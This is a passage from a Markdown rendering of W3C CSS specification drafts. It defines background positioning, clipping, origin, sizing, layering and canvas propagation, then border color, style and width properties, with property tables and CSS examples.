> body { background: url("banner.jpeg") bottom }       /*  50% 100% */
> ```

> **Example:** In the example below, the (single) image is placed in the lower-right corner of the viewport.
>
> ```
> body {
>   background-image: url("logo.png");
>   background-attachment: fixed;
>   background-position: 100% 100%;
>   background-repeat: no-repeat;
> }
> ```

> **Example:** Background positions can also be relative to other corners than the top left. For example, the following puts the background image 10px from the bottom and 3em from the right:
>
> ```
> background-position: right 3em bottom 10px
> ```

See [§ 3 Layering Multiple Background Images](#css-backgrounds-4:layering) for how `background-position` interacts with other comma-separated background properties to form each background image layer.

#### 2.7.  Background Positioning Shorthand: the `background-position` shorthand property {#css-backgrounds-4:background-position}

| Field | Value |
| --- | --- |
| Name: | **background-position** |
| [Value:](#css-values-4:value-defs) | `<bg-position>`# |
| [Initial:](#css-cascade-6:initial-values) | 0% 0% |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to size of background positioning area *minus* size of background image; see text |
| [Computed value:](#css-cascade-6:computed) | a list, each item a pair of offsets (horizontal and vertical) from the top left origin, each offset given as a computed `<length-percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list |

If background images have been specified, this property specifies their initial position (after any [resizing](#css-backgrounds-4:background-size)) within their corresponding background positioning area.

This property is a shorthand property that sets `background-position-x`, `background-position-y`, `background-position-block`, and `background-position-inline` in a single declaration.

Its value is given as a comma-separated list of **`<bg-position>`** values, which are interpreted as `<position>` values with the resized background image as the alignment subject and the background positioning area as the alignment container.

> **Note:** A pair of keywords can be reordered, while a combination of keyword and length or percentage cannot. So `center left` is valid while `50% left` is not.

If three or four values are given, then each `<length-percentage>` represents an offset and must be preceded by a keyword, which specifies from which edge the offset is given. For example, `background-position: bottom 10px right 20px` represents a `10px` vertical offset up from the bottom edge and a `20px` horizontal offset leftward from the right edge. If three values are given, the missing offset is assumed to be zero.

Positive values represent an offset *inward* from the edge of the background positioning area. Negative values represent an offset *outward* from the edge of the background positioning area.

> **Example:** The following declarations give the stated (horizontal, vertical) offsets from the top left corner:
>
> ```
> background-position: left 10px top 15px;   /* 10px, 15px */
> background-position: left      top     ;   /*  0px,  0px */
> background-position:      10px     15px;   /* 10px, 15px */
> background-position: left          15px;   /*  0px, 15px */
> background-position:      10px top     ;   /* 10px,  0px */
> background-position: left      top 15px;   /*  0px, 15px */
> background-position: left 10px top     ;   /* 10px,  0px */
> ```

```css
<bg-position> =  <position> | <position-three>
<position-three> = [
  [ left | center | right ] && [ [ top | bottom ] <length-percentage> ]
|
  [ [ left | right ] <length-percentage> ] && [ top | center | bottom ]
]
```

The omitted `<length-percentage>` in the `background-position`-specific `<position-three>` syntax variant defaults to `0%`.

> **Issue:** Specify how the longhand properties are set. [[Issue #9690]](https://github.com/w3c/csswg-drafts/issues/9690)

##### 2.7.1.  Serialization of `background-position` values {#css-backgrounds-4:bg-position-serialization}

The specified value and computed value of the `<bg-position>` type serialize exactly as defined in [CSS-VALUES-4] for `<position>`. For 3-value productions (which are not valid in <position>), the specified value serialization is identical to the equivalent 4-value syntax except that the omitted offset remains omitted.

#### 2.8.  Painting Area: the `background-clip` property {#css-backgrounds-4:background-clip}

| Field | Value |
| --- | --- |
| Name: | **background-clip** |
| [Value:](#css-values-4:value-defs) | `<bg-clip>`# |
| [Initial:](#css-cascade-6:initial-values) | border-box |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list |

Determines the **background painting area**, which determines the area within which the background is painted. The syntax of the property is given with

```css
<bg-clip> = <visual-box> | [ border-area || text ]
```

> **Issue:** Or should this be defining the `-webkit-background-clip` property, saying that all the values are identical, with this additional `text` value?

****`<visual-box>`****

: The background is painted within (clipped to) the specified box of the element.

****text****

: The background is painted within (clipped to) the intersection of the border box and the geometry of the text including any decorations and [emphasis marks](#css-text-decor-4:emphasis-marks) in the element and its in-flow and floated descendants. The text color has no effect on the painting of the background.

****border-area****

: The background is clipped to the area painted by the border, taking `border-width` and `border-style` into account but ignoring any transparency introduced by `border-color`.

If both `border-area` and `text` are specified, the background is painted within (clipped to) the union of these two areas.

> **Note:** The root element has a different background painting area and thus the `background-clip` property has no effect when specified on it. See [§ 4 Backgrounds of Special Elements](#css-backgrounds-4:special-backgrounds).

> **Note:** The background is always drawn *behind* the border, if any. See “Elaborate description of Stacking Contexts” in [CSS2] Appendix E.

See [CSS Borders and Box Decorations 4 § 3.7 Corner Shaping: the corner-*-shape properties](#css-borders-4:corner-shaping) for how `border-radius` affects the shape of the background painting area.

See [§ 3 Layering Multiple Background Images](#css-backgrounds-4:layering) for how `background-clip` interacts with other comma-separated background properties to form each background image layer.

#### 2.9.  Positioning Area: the `background-origin` property {#css-backgrounds-4:background-origin}

| Field | Value |
| --- | --- |
| Name: | **background-origin** |
| [Value:](#css-values-4:value-defs) | `<visual-box>`# |
| [Initial:](#css-cascade-6:initial-values) | padding-box |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item a keyword as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list |

This property determines the **background positioning area**: the area within which any background images are positioned. For elements rendered as multiple box fragments (e.g., inline boxes on several lines, boxes on several pages), specifies which boxes `box-decoration-break` [CSS-BREAK-3] operates on to determine the background positioning area(s).

****padding-box****

: The position is relative to the padding box. (For single boxes `0 0` is the upper left corner of the padding edge, `100% 100%` is the lower right corner.)

****border-box****

: The position is relative to the border box.

****content-box****

: The position is relative to the content box.

If the `background-attachment` value for this layer is `fixed`, then this property has no effect: in this case the background positioning area is the initial containing block.

> **Note:** If `background-clip` is `padding-box`, `background-origin` is `border-box`, `background-position` is `top left` (the initial value), and the element has a non-zero border, then the top and left edges of the background image will be clipped.

See [§ 3 Layering Multiple Background Images](#css-backgrounds-4:layering) for how `background-origin` interacts with other comma-separated background properties to form each background image layer.

#### 2.10.  Sizing Images: the `background-size` property {#css-backgrounds-4:background-size}

| Field | Value |
| --- | --- |
| Name: | **background-size** |
| [Value:](#css-values-4:value-defs) | `<bg-size>`# |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see text |
| [Computed value:](#css-cascade-6:computed) | list, each item a pair of sizes (one per axis) each represented as either a keyword or a computed `<length-percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list |

This property specifies the size of each background image. The property’s value is given as a comma-separated list of `<bg-size>` values where

```css
<bg-size> = [ <length-percentage [0,∞]> | auto ]{1,2} | cover | contain
```

Values have the following meanings:

****contain****

: Scale the image, while preserving its natural aspect ratio (if any), to the largest size such that both its width and its height can fit inside the background positioning area.

****cover****

: Scale the image, while preserving its natural aspect ratio (if any), to the smallest size such that both its width and its height can completely cover the background positioning area.

**[ **`<length-percentage [0,∞]>`** | **auto** ]{1,2}**

: The first value gives the width of the corresponding image, the second value its height. If only one value is given the second is assumed to be `auto`.

  A `<percentage>` is relative to the background positioning area.

  An `auto` value for one dimension is resolved by using the image’s natural aspect ratio and the size of the other dimension, or failing that, using the image’s natural size, or failing that, treating it as `100%`.

  If both values are `auto` then the natural width and/or height of the image should be used, if any, the missing dimension (if any) behaving as `auto` as described above. If the image has neither natural size, its size is determined as for `contain`.

  Negative values are invalid.

> **Example:** Here are some examples. The first example stretches the background image independently in both dimensions to completely cover the content area:
>
> ```
> div {
>   background-image: url(plasma.png);
>   background-repeat: no-repeat;
>   background-size: 100% 100%;
>   background-origin: content-box;
> }
> ```
>
> The second example stretches the image so that exactly two copies fit horizontally. The aspect ratio is preserved:
>
> ```
> p {
>   background-image: url(tubes.png);
>   background-size: 50% auto;
>   background-origin: border-box;
> }
> ```
>
> This example forces the background image to be 15 by 15 pixels:
>
> ```
> p {
>   background-size: 15px 15px;
>   background-image: url(tile.png);
> }
> ```
>
> This example uses the image’s natural size. Note that this is the only possible behavior in CSS level 1 and 2.
>
> ```
> body {
>   background-size: auto;            /* default */
>   background-image: url(flower.png);
> }
> ```
>
> The following example rounds the height of the image to 33.3%, up from the specified value of 30%. At 30%, three images would fit entirely and a fourth only partially. After rounding, three images fit exactly. The width of the image is 20% of the background positioning area width and is not rounded.
>
> ```
> p {
>   background-image: url(chain.png);
>   background-repeat: no-repeat round;
>   background-size: 20% 30%;
> }
> ```

If `background-repeat` is `round` for one (or both) dimensions, there is a second step. The UA must scale the image in that dimension (or both dimensions) so that it fits a whole number of times in the background positioning area. In the case of the width (height is analogous):

> If *X* ≠ 0 is the width of the image after step one and *W* is the width of the background positioning area, then the rounded width *X'* = *W* / round(*W* / *X*) where round() is a function that returns the nearest natural number (integer greater than zero).

If `background-repeat` is `round` for one dimension only and if `background-size` is `auto` for the other dimension, then there is a third step: that other dimension is scaled so that the original aspect ratio is restored.

> **Example:** In this example the background image is shown at its natural size:
>
> ```
> div {
>   background-image: url(image1.png);
>   background-repeat: repeat;         /* default */
>   background-size: auto;             /* default */
> }
> ```
>
> In the following example, the background is shown with a width of 3em and its height is scaled proportionally to keep the original aspect ratio:
>
> ```
> div {
>   background-image: url(image2.png);
>   background-repeat: repeat;         /* default */
>   background-size: 3em;              /* = '3em auto' */
> }
> ```
>
> In the following example, the background is shown with a width of approximately 3em: scaled so that it fits a whole number of times in the width of the background. The height is scaled proportionally to keep the original aspect ratio:
>
> ```
> div {
>   background-image: url(image3.png);
>   background-repeat: round repeat;
>   background-size: 3em auto;
> }
> ```
>
> In the following example, the background image is shown with a width of 3em and a height that is either the height corresponding to that width at the original aspect ratio or slightly less:
>
> ```
> div {
>   background-image: url(image4.png);
>   background-repeat: repeat round;
>   background-size: 3em auto;
> }
> ```
>
> In the following example, the background image is shown with a height of approximately 4em: scaled slightly so that it fits a whole number of times in the background height. The width is the approximately the width that corresponds to a 4em height at the original aspect ratio: scaled slightly so that it fits a whole number of times in the background width.
>
> ```
> div {
>   background-image: url(image5.png);
>   background-repeat: round;
>   background-size: auto 4em;
> }
> ```

If the background image’s width or height resolves to zero, this causes the image not to be displayed. (The effect is the same as if it had been a transparent image.)

See [§ 3 Layering Multiple Background Images](#css-backgrounds-4:layering) for how `background-size` interacts with other comma-separated background properties to form each background image layer.

##### 2.10.1.  Serialization of `background-size` values {#css-backgrounds-4:bg-size-serialization}

The specified value and computed value of the `<bg-size>` type always serialize as two values, even when the second value is `auto`, due to the [shortest, most backwards-compatible serialization principle](#cssom-1:serializing-css-values).

#### 2.11.  Background Image Layers: the `background-tbd` shorthand property {#css-backgrounds-4:background-layers}

Not Ready For Implementation

This section is not yet ready for implementation. It exists in this repository to record the ideas and promote discussion.

Before attempting to implement anything of this section, please contact the CSSWG at www-style@w3.org.

| Field | Value |
| --- | --- |
| Name: | **background-tbd** |
| [Value:](#css-values-4:value-defs) | `<bg-layer>`# |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |

The `background-tbd` property is a shorthand property that sets all the same properties as the `background` shorthand except for `background-color`, allowing authors to easily declare and position background images while letting `background-color` cascade through independently.

> **Issue:** The name of this property is discussed in [issue 9083](https://github.com/w3c/csswg-drafts/issues/9083).

> **Example:** This example sets two background layers later in the cascade. By using `background-tbd`, the previously set `background-color` won’t be overridden.
>
> ```css
> p {
>   background-color: green;
> }
>
> p {
>   background-tbd:
>     url(a.png) top left,
>     url(b.png) top left no-repeat;
> }
> ```

> **Example:** This example tries to set the background color in addition to the background image. But for that to work, `background` needs to be used instead of `background-tbd`. So the `background-tbd` declaration will be dropped.
>
> ```css
> p {
>   background: url(pass.png) green;   /* valid */
>   background-tbd: url(fail.png) red; /* invalid */
> }
> ```

#### 2.12.  Backgrounds Shorthand: the `background` property {#css-backgrounds-4:background}

| Field | Value |
| --- | --- |
| Name: | **background** |
| [Value:](#css-values-4:value-defs) | `<bg-layer>`#? , `<final-bg-layer>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `background` property is a shorthand property for setting most background properties at the same place in the style sheet. The number of comma-separated items defines the number of background image layers. Given a valid declaration, for each layer the shorthand first sets the corresponding value of each of `background-image`, `background-position`, `background-size`, `background-repeat`, `background-origin`, `background-clip` and `background-attachment` to that property’s initial value, then assigns any explicit values specified for this layer in the declaration. Finally `background-color` is set to the specified color, if any, else set to its initial value.

This property’s value is given as a comma-separated list of values where

```css
<bg-layer> = <bg-image> || <bg-position> [ / <bg-size> ]? || <repeat-style> || <attachment> || <visual-box> || <bg-clip>
<final-bg-layer> =  <bg-image> || <bg-position> [ / <bg-size> ]? || <repeat-style> || <attachment> || <visual-box> || <bg-clip> || <'background-color'>
```

> **Note:** A color is permitted in `<final-bg-layer>`, but not in `<bg-layer>`.

If one `<visual-box>` value is present, then it sets both `background-origin` and `background-clip` to that value. However, if a value is set that is only valid in `background-clip`, then it sets `background-clip` to that value and `background-origin` to `border-box`. If two <visual-box> values are present, then the first sets `background-origin` and the second `background-clip`.

> **Example:** In the first rule of the following example, only a value for `background-color` has been given and the other individual properties are set to their initial values. In the second rule, many individual properties have been specified.
>
> ```
> body { background: red }
> p { background: url("chess.png") 40% / 10em gray
>                 round fixed border-box; }
> ```
>
> The first rule is equivalent to:
>
> ```
> body {
>     background-color: red;
>     background-position: 0% 0%;
>     background-size: auto;
>     background-repeat: repeat;
>     background-clip: border-box;
>     background-origin: padding-box;
>     background-attachment: scroll;
>     background-image: none }
> ```
>
> The second is equivalent to:
>
> ```
> p {
>   background-color: gray;
>   background-position: 40% 50%;
>   background-size: 10em auto;
>   background-repeat: round;
>   background-clip: border-box;
>   background-origin: border-box;
>   background-attachment: fixed;
>   background-image: url(chess.png);
> }
> ```

> **Example:** The following example shows how a both a background color (`#CCC`) and a background image (`url(metal.jpg)`) are set. The image is rescaled to the full width of the element:
>
> ```
> E { background: #CCC url("metal.jpg") top left / 100% auto no-repeat}
> ```

> **Example:** Another example shows equivalence:
>
> ```
> div {
>   background: padding-box url(paper.jpg) white center;
> }
>
> div {
>   background-color: white;
>   background-image: url(paper.jpg);
>   background-repeat: repeat;
>   background-attachment: scroll;
>   background-position: center;
>   background-clip: padding-box;
>   background-origin: padding-box;
>   background-size: auto auto;
> }
> ```

> **Example:** The following declaration with multiple, comma-separated values
>
> ```
> background: url(a.png) top left no-repeat,
>             url(b.png) center / 100% 100% no-repeat,
>             url(c.png) white;
> ```
>
> is equivalent to
>
> ```
> background-image:      url(a.png),  url(b.png),          url(c.png);
> background-position:   top left,    center,              top left;
> background-repeat:     no-repeat,   no-repeat,           repeat;
> background-clip:       border-box,  border-box,          border-box;
> background-origin:     padding-box, padding-box,         padding-box;
> background-size:       auto auto,   100% 100%,           auto auto;
> background-attachment: scroll,      scroll,              scroll;
> background-color:      white;
> ```

### 3.  Layering Multiple Background Images {#css-backgrounds-4:layering}

The background of a box can have multiple **background image layers**. The number of layers is determined by the number of comma-separated values in the `background-image` property. Note that a value of `none` still creates a layer.

Each of the background images is sized, positioned, and tiled according to the corresponding value in the other background properties. The lists are matched up from the first value: excess values at the end are not used. If a property doesn’t have enough comma-separated values to match the number of layers, the UA must calculate its used value by repeating the list of values until there are enough.

> **Example:** For example, this set of declarations:
>
> ```
> background-image: url(flower.png), url(ball.png), url(grass.png);
> background-position: center center, 20% 80%, top left, bottom right;
> background-origin: border-box, content-box;
> background-repeat: no-repeat;
> ```
>
> has exactly the same effect as this set, with the extra position dropped and the missing values for `background-origin` and `background-repeat` filled in (emphasized for clarity):
>
> ```
> background-image: url(flower.png), url(ball.png), url(grass.png);
> background-position: center center, 20% 80%, top left;
> background-origin: border-box, content-box, border-box;
> background-repeat: no-repeat, no-repeat, no-repeat;
> ```

The first image in the list is the layer closest to the user, the next one is painted behind the first, and so on. The background color, if present, is painted below all of the other layers.

> **Note:** The [border-image properties](#css-borders-4:border-images) can also define a background image, which, if present, is painted on top of the background layers created by the background properties.

### 4.  Backgrounds of Special Elements {#css-backgrounds-4:special-backgrounds}

The document [canvas](#css2:the-canvas) is the infinite surface over which the document is rendered. [CSS2] Since no element corresponds to the canvas, in order to allow styling of the canvas CSS propagates the background of the root element (or, in the case of HTML, the <body> element) as described below. However, if the element whose background would be used for the canvas is `display: none`, then the canvas background is transparent.

If the canvas background is not opaque, the **canvas surface** below it shows through. The texture of the canvas surface is UA-dependent (but is typically an opaque white).

#### 4.1.  The Canvas Background and the Root Element {#css-backgrounds-4:root-background}

The background of the root element becomes the **canvas background** and its background painting area extends to cover the entire [canvas](#css2:the-canvas). However, any images are sized and positioned relative to the root element’s box as if they were painted for that element alone. (In other words, the background *positioning* area is determined as for the root element.) The root element does not paint this background again, i.e., the used value of its background is `transparent`.

#### 4.2.  The Canvas Background and the HTML <body> Element {#css-backgrounds-4:body-background}

For documents whose root element is an HTML `HTML` element or an XHTML `html` element [HTML]: if the computed value of `background-image` on the root element is `none` and its `background-color` is `transparent`, user agents must instead propagate the computed values of the background properties from that element’s first HTML `BODY` or XHTML `body` child element. The used values of that `BODY` element’s background properties are their initial values, and the propagated values are treated as if they were specified on the root element. It is recommended that authors of HTML documents specify the canvas background using the `BODY` element rather than the `HTML` element.

> **Note:** Using containment disables this special handling of the HTML `body` element. See the [CSS Containment 1 § 2 Strong Containment: the contain property](#css-contain-2:contain-property) for details.

> **Example:** According to these rules, the canvas underlying the following HTML document will have a “marble” background:
>
> ```
> <!DOCTYPE html PUBLIC '-//W3C//DTD HTML 4.0//EN'
>   >
> <html>
>   <head>
>     <title>Setting the canvas background</title>
>     <style type="text/css">
>        body { background: url("http://example.org/marble.png") }
>     </style>
>   </head>
>   <body>
>     <p>My background is marble.</p>
>   </body>
> </html>
> ```

#### 4.3.  The `::first-line` Pseudo-element‘s Background {#css-backgrounds-4:first-line-background}

The `::first-line` pseudo-element is like an inline-level element for the purposes of the background (see section 5.12.1 of [CSS2]). That means, e.g., that in a left-justified first line, the background does not necessarily extend all the way to the right edge.

---

## CSS Borders and Box Decorations Module Level 4 {#css-borders-4}

- **Shortname:** `css-borders-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-borders-4/](https://drafts.csswg.org/css-borders-4/)
- **Published TR:** [https://www.w3.org/TR/css-borders-4/](https://www.w3.org/TR/css-borders-4/)
- **W3C Status:** WD (exploring)
- **Last Edited:** 2026-11-16

### 1.  Introduction {#css-borders-4:intro}

The properties of this module deal with the decoration of the border area. It also defines decorations that can be applied to the box.

#### 1.1.  Module Interactions {#css-borders-4:placement}

This specification extends the parts related to borders and box decorations of CSS Backgrounds and Borders Module Level 3 [CSS3BG].

It provides specifications for the added `corner-*-shape` and `border-shape` properties, as well as logical shorthands for `border-*-radius`, `box-shadow-*` longhands, and partial borders via the `border-limit` and `border-*-clip` properties.

All properties in this module apply to the `::first-letter` pseudo-element. The [border-radius properties](#css-borders-4:corners) also apply to the `::first-line` pseudo-element. The UA may (but is not required to) apply the `border-image` or `box-shadow` properties to `::first-line`. The UA must not apply the [border-color/style/width properties](#css-borders-4:borders) to `::first-line`. [CSS2]

#### 1.2.  Value Definitions {#css-borders-4:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types. For example, combining with [CSS Images](#css-images-5) allows for using CSS gradients as `background-image` or `border-image` values. [CSS-IMAGES-3]

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Borders {#css-borders-4:borders}

The border can either be a predefined style (solid line, double line, dotted line, pseudo-3D border, etc.) or it can be an image. In the former case, various properties define the style (`border-style`), color (`border-color`), and thickness (`border-width`) of the border.

#### 2.1.  Line Colors: the `border-color` properties {#css-borders-4:border-color}

| Field | Value |
| --- | --- |
| Name: | **border-top-color**, **border-right-color**, **border-bottom-color**, **border-left-color**, **border-block-start-color**, **border-block-end-color**, **border-inline-start-color**, **border-inline-end-color** |
| [Value:](#css-values-4:value-defs) | `<color>` \| `<image-1D>` |
| [Initial:](#css-cascade-6:initial-values) | currentcolor |
| [Applies to:](#css-cascade-5:applies-to) | all elements except ruby base containers and ruby annotation containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the computed color and/or a one-dimensional image function |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | see prose |
| [Logical property group:](#css-logical-1:logical-property-group) | `border-color` |

These properties set the foreground **color** of the border specified by the `border-style` properties.

The stripes defined by `<image-1D>` follow the shape of the border on the side to which they apply, and are drawn in bands starting from the padding edge and progressing outwards. The border width at each point defines the *total width* of the stripes at that point.

> **Example:** Using multiple colors for each side:
>
> ```css
> .foo {
>   border: 30px solid;
>   border-color: stripes(dodgerblue, skyblue) stripes(yellow, gold) stripes(lightgreen, limegreen) stripes(indianred, orange);
> }
> ```
>
> Sample rendering:
>
> 
>
> The same border colors with `border-style: dotted`:
>
> 

| Field | Value |
| --- | --- |
| Name: | **border-color** |
| [Value:](#css-values-4:value-defs) | [ `<color>` \| `<image-1D>` ]{1,4} |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

`border-color` is a shorthand property for the four physical `border-*-color` properties. The four values set the top, right, bottom and left border, respectively. A missing left is the same as right, a missing bottom is the same as top, and a missing right is also the same as top. This is resolved individually for each list item.

The flow-relative properties `border-block-start-color`, `border-block-end-color`, `border-inline-start-color`, and `border-inline-end-color` correspond to the physical properties `border-top-color`, `border-bottom-color`, `border-left-color`, and `border-right-color`. The mapping depends on the element’s `writing-mode`, `direction`, and `text-orientation`.

| Field | Value |
| --- | --- |
| Name: | **border-block-color**, **border-inline-color** |
| [Value:](#css-values-4:value-defs) | `<'border-top-color'>`{1,2} |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These two shorthand properties set the `border-block-start-color` & `border-block-end-color` and `border-inline-start-color` & `border-inline-end-color`, respectively. The first value represents the start side color, and the second value represents the end side color. If only one value is given, it applies to both the start and end sides.

#### 2.2.  Line Patterns: the `border-style` properties {#css-borders-4:border-style}

| Field | Value |
| --- | --- |
| Name: | **border-top-style**, **border-right-style**, **border-bottom-style**, **border-left-style**, **border-block-start-style**, **border-block-end-style**, **border-inline-start-style**, **border-inline-end-style** |
| [Value:](#css-values-4:value-defs) | `<line-style>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | all elements except ruby base containers and ruby annotation containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| [Logical property group:](#css-logical-1:logical-property-group) | `border-style` |

These properties control whether a border appears, and if it does what **style** it’s drawn in (if it is not overridden by a [border image](#css-borders-4:border-images)).

The flow-relative properties `border-block-start-style`, `border-block-end-style`, `border-inline-start-style`, and `border-inline-end-style` correspond to the physical properties `border-top-style`, `border-bottom-style`, `border-left-style`, and `border-right-style`. The mapping depends on the element’s `writing-mode`, `direction`, and `text-orientation`.

| Field | Value |
| --- | --- |
| Name: | **border-block-style**, **border-inline-style** |
| [Value:](#css-values-4:value-defs) | `<'border-top-style'>`{1,2} |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These two shorthand properties set the `border-block-start-style` & `border-block-end-style` and `border-inline-start-style` & `border-inline-end-style`, respectively. The first value represents the start side style, and the second value represents the end side style. If only one value is given, it applies to both the start and end sides.

| Field | Value |
| --- | --- |
| Name: | **border-style** |
| [Value:](#css-values-4:value-defs) | `<'border-top-style'>`{1,4} |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

`border-style` is a shorthand property for the four physical `border-*-style` properties. The four values set the top, right, bottom and left border, respectively. A missing left is the same as right, a missing bottom is the same as top, and a missing right is also the same as top. This is resolved individually for each list item.

The style is specified as a `<line-style>` keyword, where

```css
<line-style> = none | hidden | dotted | dashed | solid | double | groove | ridge | inset | outset
```

Values have the following meanings:

****none****

: No border. Color and width are ignored (i.e., the border has width 0). Note this means that the initial value of `border-image-width` will also resolve to zero.

****hidden****

: Same as `none`, but has different behavior in the border conflict resolution rules for border-collapsed tables [CSS2].

****dotted****

: A series of round dots.

****dashed****

: A series of square-ended dashes.

****solid****

: A single line segment.

****double****

: Two parallel solid lines with some space between them. (The thickness of the lines is not specified, but the sum of the lines and the space must equal `border-width`.)

****groove****

: Looks as if it were carved in the canvas. (This is typically achieved by creating a “shadow” from two colors that are slightly lighter and darker than the specified `border-color`.)

****ridge****

: Looks as if it were coming out of the canvas.

****inset****

: Looks as if the content on the inside of the border is sunken into the canvas. Treated as `ridge` in the [collapsing border model](#css2:collapsing-borders). [CSS2]

****outset****

: Looks as if the content on the inside of the border is raised out of the canvas. Treated as `groove` in the [collapsing border model](#css2:collapsing-borders). [CSS2]

Borders are drawn in front of the element’s background, but behind the element’s content (in case it overlaps).


Example renderings of the predefined border styles.

> **Note:** Border colors close to black or white may need different color calculations than colors in between in order to create the required “3D” effect of `groove`, `ridge`, `inset`, or `outset`.

> **Note:** There is no control over the spacing of the dots and dashes, nor over the length of the dashes. Implementations are encouraged to choose a spacing that makes the corners symmetrical.

#### 2.3.  Line Thickness: the `border-width` properties {#css-borders-4:border-width}

| Field | Value |
| --- | --- |
| Name: | **border-top-width**, **border-right-width**, **border-bottom-width**, **border-left-width**, **border-block-start-width**, **border-block-end-width**, **border-inline-start-width**, **border-inline-end-width** |
| [Value:](#css-values-4:value-defs) | `<line-width>` |
| [Initial:](#css-cascade-6:initial-values) | medium |
| [Applies to:](#css-cascade-5:applies-to) | all elements except ruby base containers and ruby annotation containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | absolute length, snapped as a border width |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| [Logical property group:](#css-logical-1:logical-property-group) | `border-width` |

These properties specify the thickness of the border, i.e. the **border width**. Where

```css
<line-width> = <length [0,∞]> | hairline | thin | medium | thick
```

Negative values are invalid. The **thin**, **medium**, and **thick** keywords are equivalent to `1px`, `3px`, and `5px`, respectively. The **hairline** keyword is a UA-defined length, less than or equal to `1px` and equal to an integer number of device pixels at the default page zoom, which represents a "just visible" line. (While it can be as large as `1px`, on many devices it will be approximately `0.3px` to `0.5px`.)

The resolved value for the `border-width` properties is the used value.

If the `border-style` corresponding to a given `border-width` is `none` or `hidden`, then the used width is 0.

